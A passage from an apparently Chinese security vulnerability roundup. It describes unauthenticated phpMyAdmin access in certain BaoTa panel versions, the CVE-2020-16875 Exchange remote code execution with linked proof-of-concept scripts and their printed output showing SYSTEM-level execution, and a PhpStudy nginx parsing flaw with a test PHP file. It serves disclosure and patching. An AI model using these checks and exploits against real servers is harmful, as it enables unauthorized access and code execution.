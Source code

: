 ![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7TLAfCC3eicZeiatLHb6PtFQK9pcoRWC2r3Hp58NZx3BPJbmqC0iaKsZ4zBsCiaqNHvK1trtsC0ZQS15g/640?wx_fmt=png)

修复建议:

关闭程序路由 /file/fileNoLogin

6、宝塔面板 phpMyadmin 未授权访问  

来源: https://mp.weixin.qq.com/s/3ZjwFo5gWlJACSkeYWQLXA

前段时间在朋友圈和微信群里火热不行的宝塔数据库面板未授权无需登录, 以下是存在安全问题的版本。

\- Linux 正式版 7.4.2

\- Linux 测试版 7.5.13

\- Windows 正式版 6.8

1、宝塔默认 phpMyadmin 端口就是 888 而这个漏洞排查方式极其简单 172.10.0.121:888/pma

2、如果宝塔是存在安全问题的版本, 那就会直接出现 phpMyadmin 面板页面。

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7TLAfCC3eicZeiatLHb6PtFQKlZ5KxHEfv4DGQ8UWegJPGjFlWpkOMOO6XTnwRzfjyYtD6plP4qNQlg/640?wx_fmt=png)

7、CVE-2020-16875: Exchange Server 远程代码执行漏洞

更新公告:https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16875

微软公告说的很明显, 只需要一个 Exchange 用户账号。就能在 Exchange 服务器上执行任意命令。

https://srcincite.io/pocs/cve-2020-16875.py.txt

https://srcincite.io/pocs/cve-2020-16875.ps1.txt

```
researcher@incite:~$ ./poc.py
(+) usage: ./poc.py <target> <user:pass> <cmd>
(+) eg: ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint

researcher@incite:~$ ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint
(+) logged in as harrym@exchangedemo.com
(+) found the \_\_viewstate: /wEPDwUILTg5MDAzMDFkZFAeyPS7/eBJ4lPNRNPBjm8QiWLWnirQ1vsGlSyjVxa5


(+) triggered rce as SYSTEM!




```

8、PhpStudy nginx 解析漏洞  

小皮面板 <= 8.1.0.7: 啊这。不是吧不是吧, 这都能甩锅到我头上。我裂开了呀!

其实这个漏洞确实不是小皮的问题, 而是 2017 年就出现的 nginx 解析漏洞。

1、利用条件就只需要把 php 恶意文件上传 (oss 不算!) 到服务器。

<?php phpinfo();?>
